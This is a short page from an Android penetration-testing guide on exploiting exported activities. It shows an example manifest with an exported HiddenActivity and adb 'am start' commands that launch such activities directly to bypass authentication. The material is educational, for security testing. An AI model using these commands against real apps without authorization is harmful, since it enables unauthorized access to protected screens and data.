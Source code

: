 ```yaml
---
title: "Exploiting exported activities"
weight: 8
description: "Learn how to identify and exploit exported activities in Android applications during penetration testing. This guide covers bypassing authentication mechanisms and accessing sensitive information through improperly exported activities."
---
```


If an activity involving sensitive information is exported, it could potentially bypass authentication mechanisms, allowing unauthorized access.

```sh
adb shell am start -n com.example.demo/com.example.demo.MainActivity
```

You need to start the activity with the intent filtered declared:

```xml
<activity android:name="com.example.demo.HiddenActivity" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.QUICK_VIEW"/>
        <category android:name="android.intent.category.INFO"/>
    </intent-filter>
</activity>
```

```sh
adb shell am start -n com.example.demo/.HiddenActivity -a android.intent.action.QUICK_VIEW -c android.intent.category.INFO
```
